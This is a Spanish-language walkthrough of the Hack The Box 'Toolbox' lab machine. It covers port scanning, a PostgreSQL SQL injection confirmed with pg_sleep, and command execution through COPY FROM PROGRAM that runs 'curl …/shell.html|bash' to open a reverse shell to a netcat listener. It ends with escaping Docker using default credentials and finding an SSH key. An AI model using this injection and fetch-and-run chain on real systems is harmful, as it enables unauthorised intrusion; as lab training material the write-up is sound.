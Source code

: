 ```yaml
---
title: "Toolbox"
description: "Toolbox"
pubDate: 2025-05-20
---
```


https://app.hackthebox.com/machines/Toolbox
\#win

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.10.236
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016190058.png)

## Reconocimiento de servicios

````
nmap -sCV -p21,22,135,139,443,445,5985,49665 10.10.10.236
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016190334.png)
Es windows
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016191219.png)

## Fuzz

Hay un archivo de docker en FTP
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016191800.png)
También Hay en el certificado SSL de la web un nombre de pagina, lo metemos en hosts
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016192338.png)
Tenemos un login
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016192610.png)

# Fase de ataque

## SQLI

Lanzamos una comilla simple
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016192733.png)
Nos da un error extraño y sabemos que es postgress
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016192758.png)
Con Burpsuite probamos si es vulnerable a SQLI

````
select pg_sleep(10);-- -
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016193735.png)
Si tarda 10 sec, es vulnerable.

### RCE 9.3

Creamos una tabla para ejecución de comandos

````
CREATE TABLE cmd_exec(cmd_output text);
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016194336.png)
Insertamos comandos para reverse shell

````
COPY cmd_exec FROM PROGRAM 'curl 10.10.14.16/shell.html|bash';
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016195804.png)
Creamos el archivo
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016195450.png)
Nos ponemos en escucha

````
nc -nlvp 443
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016195906.png)
\[-\]==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

Ajustar proporciones

````
stty rows 44 columns 184
````

# Privilege Escalation

## Salir de Docker

Probamos las contraseña por defualt de docker-toolbox (docke : tcpuser)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016201903.png)
Dentro de este sistema esta montado una estructura de windows en el directorio c/
Encontramos una clave privada de ssh.
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016202325.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016202850.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241016202903.png)
\[+\] ==pwned!==
